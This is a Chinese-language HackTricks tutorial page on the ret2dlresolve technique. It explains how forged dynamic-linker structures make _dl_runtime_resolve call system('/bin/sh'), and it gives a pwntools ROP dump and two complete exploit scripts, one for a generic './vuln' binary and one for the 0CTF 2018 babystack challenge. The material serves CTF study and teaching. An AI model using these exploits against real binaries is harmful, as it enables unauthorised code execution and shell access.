 # Ret2dlresolve

{% hint style="success" %}
学习并练习AWS Hacking：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习并练习GCP Hacking：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

如[**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md)和[**Relro**](../common-binary-protections-and-bypasses/relro.md)页面中所解释的，没有 Full Relro 的二进制文件将在首次使用时解析符号（如外部库的地址）。这种解析是通过调用函数 **`_dl_runtime_resolve`** 实现的。

**`_dl_runtime_resolve`** 函数从堆栈中获取一些结构的引用，以便**解析**指定的符号。

因此，可以**伪造所有这些结构**，使动态链接解析请求的符号（如 **`system`** 函数）并使用配置的参数（例如 **`system('/bin/sh')`**）。

通常，通过创建一个**初始 ROP 链调用 `read`** 从可写内存中读取，然后传递**结构**和字符串 **`'/bin/sh'`**，使它们被 read 存储在已知位置，然后 ROP 链继续调用 **`_dl_runtime_resolve`**，让它在伪造的结构中**解析 `system`** 的地址并**调用此地址**并传递 `$'/bin/sh'` 的地址。

{% hint style="success" %}
这种技术特别有用，特别是在没有系统调用 gadget（用于使用技术，如 [**ret2syscall**](rop-syscall-execv/) 或 [SROP](srop-sigreturn-oriented-programming/)）以及没有泄漏 libc 地址的情况下。
{% endhint %}

查看此视频，了解关于这种技术的详细解释：

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

或查看以下页面以逐步解释：

* [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## 攻击摘要

1. 在某个位置写入伪造结构
2. 设置 system 的第一个参数（`$rdi = &'/bin/sh'`）
3. 在堆栈上设置要调用 **`_dl_runtime_resolve`** 的结构的地址
4. 调用 **`_dl_runtime_resolve`**
5. **`system`** 将被解析并以 `'/bin/sh'` 作为参数调用

根据[**pwntools 文档**](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html)，这是一个 **`ret2dlresolve`** 攻击的示例。
```python
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('amd64'))
>>> rop = ROP(elf)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:         0x400593 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x400591 pop rsi; pop r15; ret
0x0018:         0x601e00 [arg1] rsi = 6299136
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x4003f0 read
0x0030:         0x400593 pop rdi; ret
0x0038:         0x601e48 [arg0] rdi = 6299208
0x0040:         0x4003e0 [plt_init] system
0x0048:          0x15670 [dlresolve index]
```
## 例子

### 纯Pwntools

您可以在[**这里找到此技术的示例**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **包含了最终ROP链的非常好的解释**，但这里是使用的最终利用：
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
### 原始
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/0CTFQuals/2018/babystack

from pwn import *

target = process('./babystack')
#gdb.attach(target)

elf = ELF('babystack')

# Establish starts of various sections
bss = 0x804a020

dynstr = 0x804822c

dynsym = 0x80481cc

relplt = 0x80482b0

# Establish two functions

scanInput = p32(0x804843b)
resolve = p32(0x80482f0) #dlresolve address

# Establish size of second payload

payload1_size = 43

# Our first scan
# This will call read to scan in our fake entries into the plt
# Then return back to scanInput to re-exploit the bug

payload0 = ""

payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in

target.send(payload0)

# Our second scan
# This will be scanned into the start of the bss
# It will contain the fake entries for our ret_2_dl_resolve attack

# Calculate the r_info value
# It will provide an index to our dynsym entry
dynsym_offset = ((bss + 0xc) - dynsym) / 0x10
r_info = (dynsym_offset << 8) | 0x7

# Calculate the offset from the start of dynstr section to our dynstr entry
dynstr_index = (bss + 28) - dynstr

paylaod1 = ""

# Our .rel.plt entry
paylaod1 += p32(elf.got['alarm'])
paylaod1 += p32(r_info)

# Empty
paylaod1 += p32(0x0)

# Our dynsm entry
paylaod1 += p32(dynstr_index)
paylaod1 += p32(0xde)*3

# Our dynstr entry
paylaod1 += "system\x00"

# Store "/bin/sh" here so we can have a pointer ot it
paylaod1 += "/bin/sh\x00"

target.send(paylaod1)

# Our third scan, which will execute the ret_2_dl_resolve
# This will just call 0x80482f0, which is responsible for calling the functions for resolving
# We will pass it the `.rel.plt` index for our fake entry
# As well as the arguments for system

# Calculate address of "/bin/sh"
binsh_bss_address = bss + 35

# Calculate the .rel.plt offset
ret_plt_offset = bss - relplt


paylaod2 = ""

paylaod2 += "0"*44
paylaod2 += resolve                 # 0x80482f0
paylaod2 += p32(ret_plt_offset)        # .rel.plt offset
paylaod2 += p32(0xdeadbeef)            # The next return address after 0x80482f0, really doesn't matter for us
paylaod2 += p32(binsh_bss_address)    # Our argument, address of "/bin/sh"

target.send(paylaod2)

# Enjoy the shell!
target.interactive()
```
## 其他示例和参考资料

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)
* [https://guyinatuxedo.github.io/18-ret2\_csu\_dl/0ctf18\_babystack/index.html](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/0ctf18\_babystack/index.html)
* 32位，无relro，无canary，nx，无pie，基本的小缓冲区溢出和返回。要利用它，利用bof调用`read`再次使用`.bss`部分和更大的大小，将`dlresolve`伪造表存储在那里以加载`system`，返回到主函数并重新滥用初始bof以调用dlresolve然后`system('/bin/sh')`。

{% hint style="success" %}
学习和实践AWS Hacking：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享黑客技巧。**

</details>
{% endhint %}
